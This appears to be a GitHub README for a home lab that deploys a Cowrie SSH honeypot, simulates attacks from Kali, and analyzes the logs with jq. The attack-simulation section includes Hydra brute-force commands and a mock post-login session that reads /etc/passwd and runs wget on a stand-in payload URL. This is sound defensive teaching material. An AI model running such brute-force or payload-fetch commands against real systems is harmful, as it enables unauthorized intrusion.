






# SSH Honeypot Lab with Cowrie

A home lab that deploys a Cowrie SSH honeypot on Ubuntu Server, simulates attacker behavior from Kali Linux, and analyzes the captured logs to identify credentials, tools, and post-login activity.

> **Note:** All attacks in this project were performed in an isolated virtual lab against systems I own.

## Overview

A honeypot is a decoy system designed to attract attackers and record what they do. This project builds one and walks through the full cycle from attacks to log analysis:

1. Building an isolated two-VM lab in VirtualBox
2. Deploying Cowrie, a medium-interaction SSH honeypot, under a least-privilege account
3. Redirecting the standard SSH port to the honeypot while keeping real administration on a separate port
4. Simulating reconnaissance, an interactive attacker session, and brute-force attacks
5. Analyzing the resulting logs in Linux

Full build notes, including every command and troubleshooting step,
are in the [lab notebook](docs/lab-notebook.md).

**Skills demonstrated:** Linux server administration, SSH hardening, firewall configuration (iptables NAT), honeypot deployment, attack simulation (nmap, Hydra), log analysis (jq, grep, sort, uniq).

## Architecture



**Port layout**

| Port  | Purpose                                   |
|-------|-------------------------------------------|
| 22    | Redirected to Cowrie (what attackers see) |
| 2222  | Cowrie fake SSH service                   |
| 22222 | Real SSH for administration               |

## Environment

| Component  | Details                                                        |
|------------|----------------------------------------------------------------|
| Host       | Windows 11 laptop, Snapdragon (ARM64) processor                |
| Hypervisor | VirtualBox, NAT Network "HoneyLab"                             |
| Honeypot   | Ubuntu Server 26.04.1 LTS (ARM64), 2 CPUs, 2 GB RAM, 25 GB disk |
| Attacker   | Kali Linux (ARM64), 2 CPUs, 4 GB RAM, 30 GB disk               |
| Honeypot Software  | Cowrie (installed from PyPI)                                   |
| Tools      | nmap, Hydra, jq, grep, sort, uniq                              |

The honeypot hostname (`web-prod-01`) was chosen to resemble a real production server instead of an obvious decoy.

## Build Steps

### Phase 1: Move Real SSH to Port 22222

Port 22 must be free so attacker traffic can be sent to Cowrie, while real administrative access stays on a separate port.

```bash
# Honeypot: change "#Port 22" to "Port 22222"
sudo nano /etc/ssh/sshd_config

# Ubuntu 26.04 uses socket activation, so a normal restart is not enough
sudo systemctl daemon-reload
sudo systemctl restart ssh.socket
sudo ss -tlnp | grep 22222

# Kali: verify access on the new port
ssh -p 22222 labadmin@10.0.2.15
```

### Phase 2: Install Cowrie Under a Least-Privilege User

Running the honeypot under its own unprivileged account limits the damage if an attacker escapes the emulated shell.

```bash
sudo apt install -y python3-venv python3-dev libssl-dev libffi-dev build-essential authbind jq
sudo adduser --disabled-password --gecos "" cowrie
sudo su - cowrie

mkdir ~/cowrie && cd ~/cowrie
python3 -m venv cowrie-env
source cowrie-env/bin/activate
pip install --upgrade pip
pip install cowrie

mkdir -p etc var/log/cowrie var/lib/cowrie/tty var/lib/cowrie/downloads var/run
cowrie start
```

`etc/cowrie.cfg`:

```ini
[honeypot]
hostname = web-prod-01
```

### Phase 3: Redirect Port 22 to Cowrie

Linux only allows root to bind to ports below 1024. Rather than running Cowrie as root, an iptables NAT rule redirects port 22 to port 2222 at the network level.

```bash
sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 2222
sudo apt install -y iptables-persistent
sudo iptables -t nat -L PREROUTING -n
```

Connecting from Kali with `ssh root@10.0.2.15` now lands in Cowrie's emulated shell.



### Authentication Rules

The PyPI install ships without a user database, so Cowrie's defaults accepted most usernames. A custom `etc/userdb.txt` allows `root` with any password except two common ones, and rejects every other username:

```
root:x:!root
root:x:!123456
root:x:*
```

Rejecting a few obvious passwords makes the honeypot more believable, since a server that accepts every password is an obvious trap.

## Attack Simulation

All attacks were launched from the Kali VM.

### Reconnaissance

```bash
nmap -sV -p 22,2222,22222 10.0.2.15
```

| Port  | Reported version                 | Actual service |
|-------|----------------------------------|----------------|
| 22    | OpenSSH 9.2p1 Debian 2+deb12u3   | Cowrie         |
| 2222  | OpenSSH 9.2p1 Debian 2+deb12u3   | Cowrie         |
| 22222 | OpenSSH 10.2p1 Ubuntu 2ubuntu3.8 | Real OpenSSH   |

Cowrie successfully presented itself as a normal SSH service.



### Interactive Attacker Session

After logging in as `root` with an arbitrary password, a typical post-compromise sequence of attacks was run:

```bash
whoami
uname -a
cat /etc/passwd
ls -la /root
wget https://example.com/payload.sh
cat /proc/cpuinfo
```

### Brute Force

```bash
head -200 /usr/share/wordlists/rockyou.txt > top200.txt
hydra -l admin -P top200.txt -t 4 -I ssh://10.0.2.15
hydra -l root -P top200.txt -t 4 -I ssh://10.0.2.15
```

| Username | Result                                                          |
|----------|-----------------------------------------------------------------|
| admin    | 0 valid passwords (all 200 attempts rejected)                   |
| root     | 3 "valid" passwords (password, 12345, 123456789); 123456 rejected |




## Findings

### 1. Event Summary

```bash
cat cowrie.json* | jq -r '.eventid' | sort | uniq -c | sort -rn
```

| Event                          | Count |
|--------------------------------|-------|
| cowrie.login.failed            | 837   |
| cowrie.session.connect         | 93    |
| cowrie.client.version          | 88    |
| cowrie.login.success           | 25    |
| cowrie.command.input           | 17    |
| cowrie.log.closed              | 4     |
| cowrie.session.file_download   | 1     |

Of 93 connections, 88 reported a client version. The remaining connections are most likely the nmap scans, which read the SSH banner and disconnect without attempting a login.

### 2. Login Outcomes

| Username | Failed | Succeeded |
|----------|--------|-----------|
| admin    | 418    | 4         |
| root     | 419    | 21        |

All four `admin` successes happened before `userdb.txt` existed. After the authentication rules were configured, `admin` was rejected in every attempt.

### 3. Top Attempted Credentials

```bash
cat cowrie.json* | jq -r 'select(.eventid | startswith("cowrie.login")) | "\(.username):\(.password)"' | sort | uniq -c | sort -rn | head -15
```

The most frequently attempted passwords were `password`, `123456789`, `123456`, and `12345`. These are at the top of the rockyou wordlist and were tried in every run. The wordlist is built from real leaked passwords, which is why these same passwords are used in real-world brute-force attacks.

### 4. Attacker Tool Fingerprinting

```bash
cat cowrie.json* | jq -r 'select(.eventid=="cowrie.client.version") | .version' | sort | uniq -c
```

| Client version                  | Count | Source             |
|---------------------------------|-------|--------------------|
| SSH-2.0-libssh_0.12.0           | 82    | Hydra              |
| SSH-2.0-OpenSSH_10.3p1 Debian-4 | 6     | Manual SSH sessions |

Hydra identifies itself through its SSH library, so automated attack tools can be distinguished from manual logins using the logs only.

### 5. Post-Login Commands

```bash
cat cowrie.json* | jq -r 'select(.eventid=="cowrie.command.input") | "\(.timestamp) \(.input)"'
```

The attacker session followed a typical pattern: identify the user (`whoami`), the system (`uname -a`), and its accounts (`cat /etc/passwd`), then attempt to download a payload (`wget`).

### 6. Payload Download

Cowrie intercepted the `wget`, fetched the file itself, and stored a copy in `var/lib/cowrie/downloads/` named by its SHA-256 hash (`25ddf2c8...4a62e484`). Inspection with `file` showed an HTML page instead of a script. These types of samples need to be inspected or hash-checked before they can be called malicious.

### 7. Session Replay

```bash
playlog ~/cowrie/var/lib/cowrie/tty/<filename>
```

Cowrie records each session like a video of the attacker's terminal, allowing an analyst to watch exactly what happened after login instead of reading a list of commands.



## Lessons Learned

- **Ubuntu 26.04 uses SSH socket activation.** Editing `sshd_config` alone does not change the port; `systemctl daemon-reload` and restarting `ssh.socket` are required.
- **Cowrie's authentication depends entirely on `userdb.txt`.** With no file, most usernames were accepted. An empty file rejected every login. A single missing `!` turned a block rule into an allow rule. Every authentication change was verified with a test.
- **The default banner is a fingerprinting risk.** Ports 22 and 2222 showed a Debian build on an Ubuntu host, and identical banners on two ports match the well-known Cowrie layout.
- **Honeypots make real outbound requests.** Cowrie fetched the attacker's URL from the internet. Production deployments should restrict egress traffic so attackers cannot use the honeypot to reach other systems.
- **Structured logs call for structured tools.** Field positions in JSON shift between event types, which made `grep` and `cut` harder to use. `jq` reads fields by name and produced reliable results.

## Next Steps

- Match Cowrie's SSH banner to the real server's version
- Block direct access to port 2222 so only redirected traffic reaches Cowrie
- Run Cowrie as a systemd service so it starts automatically
- Restrict outbound traffic from the honeypot
- Forward logs to a SIEM such as Splunk or Wazuh for dashboards and alerting
- Add a web honeypot to capture HTTP-based attacks

## Repository Structure

```
ssh-honeypot-lab/
├── README.md
├── screenshots/       Numbered screenshots for each phase
├── configs/           cowrie.cfg, userdb.txt, iptables-rules.txt
├── logs/              sample-cowrie.json (trimmed excerpt)
└── docs/              lab-notebook.md (detailed build notes)
```
